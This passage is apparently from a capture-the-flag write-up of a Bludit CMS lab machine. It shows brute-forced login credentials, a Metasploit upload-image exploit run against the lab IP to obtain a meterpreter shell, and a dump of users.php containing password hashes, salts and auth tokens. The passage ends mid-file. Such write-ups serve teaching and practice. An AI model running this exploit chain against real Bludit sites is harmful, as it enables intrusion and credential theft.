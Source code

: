     SUCCESS: Password found!
    Use fergus:RolandDeschain to login.

## metasploit

One of the two authenticated exploit shown by searchsploit is a metasploit
module. So we fire up `msf` and search for `bludit`. Only one module pop up. We
directly use this module and set the different options. Once run we get a
`meterpreter` on the box as `www-data`.

    :::text
    msf5 > use exploit/linux/http/bludit_upload_images_exec
    msf5 exploit(linux/http/bludit_upload_images_exec) > set rhost 10.10.10.191
    rhost => 10.10.10.191
    msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
    BLUDITPASS => RolandDeschain
    msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
    BLUDITUSER => fergus
    msf5 exploit(linux/http/bludit_upload_images_exec) > run

As `bludit` is a "flat files" CMS every information is stored in PHP file. We
quickly found a `users.php` file containing the user information including
password hashes.

    :::text
    meterpreter > cat ../databases/users.php
    <?php defined('BLUDIT') or die('Bludit CMS.'); ?>
    {
        "admin": {
            "nickname": "Admin",
            "firstName": "Administrator",
            "lastName": "",
            "role": "admin",
            "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
            "salt": "5dde2887e7aca",
            "email": "",
            "registered": "2019-11-27 07:40:55",
            "tokenRemember": "",
            "tokenAuth": "b380cb62057e9da47afce66b4615107d",
            "tokenAuthTTL": "2009-03-15 14:00",
            "twitter": "",
            "facebook": "",
            "instagram": "",
            "codepen": "",
            "linkedin": "",
            "github": "",
            "gitlab": ""
        },
        "fergus": {
            "firstName": "",
            "lastName": "",
            "nickname": "",
            "description": "",
            "role": "author",
            "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
            "salt": "jqxpjfnv",
            "email": "",
            "registered": "2019-11-27 13:26:44",
            "tokenRemember": "",
            "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
            "tokenAuthTTL": "2009-03-15 14:00",
            "twitter": "",
            "facebook": "",
            "codepen": "",
            "instagram": "",